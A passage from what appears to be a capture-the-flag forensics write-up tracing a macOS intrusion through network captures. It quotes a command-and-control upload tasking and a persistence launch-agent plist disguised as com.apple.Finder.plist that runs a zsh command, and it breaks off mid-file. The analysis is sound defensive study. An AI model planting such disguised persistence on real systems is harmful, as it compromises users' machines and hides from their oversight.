 
I used this [article](https://medium.com/@tahirbalarabe2/5-common-macos-persistence-techniques-and-how-to-stop-them-e7ab00222e00) as a reference.

In tcp.stream 179 the attacker performed an upload operation

```json
{
  "action": "get_tasking",
  "tasks": [
    {
      "timestamp": 1754351614,
      "command": "upload",
      "parameters": "{\"file_id\":\"f0d81f6b-e82f-4b06-907e-1a5a45cad3d1\",\"overwrite\":false,\"remote_path\":\"com.apple.Finder.plist\"}",
      "id": "2030ac43-554f-4e59-8c31-aae4a71e64c0"
    }
  ]
}
```
The attacker uploaded a file called `com.apple.Finder.plist` which normally saves the user's Finder settings like window layouts, sidebar items, view preferences, etc..

Let's view its content which is in tcp.stream 181
![Screenshot](/images/CyberWarriorsCTF2025/17.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple Computer//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
 <key>Label</key>
 <string>com.persist.user</string>
 <key>OnDemand</key>
 <true/>
 <key>ProgramArguments</key>
 <array>
 <string>/bin/zsh</string>
 <string>-c</string>
<string>/Users/test/Applications</string>
 </array>
 <key>StartInterval</key>
```